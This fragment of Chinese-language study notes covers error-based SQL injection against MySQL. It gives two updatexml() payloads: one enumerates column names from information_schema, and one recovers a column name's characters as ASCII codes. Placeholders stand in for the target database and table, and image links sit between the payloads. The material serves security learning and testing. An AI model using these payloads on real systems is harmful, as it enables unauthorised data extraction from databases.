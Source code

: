 ```mysql
# 通过 limit 来指定第几个，但是字段名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

![image-20250222163545815](static/image/image-20250222163545815.png)

```mysql
# 获取字段名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(column_name,第x位,1)))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

![image-20250222163738135](static/image/image-20250222163738135.png)
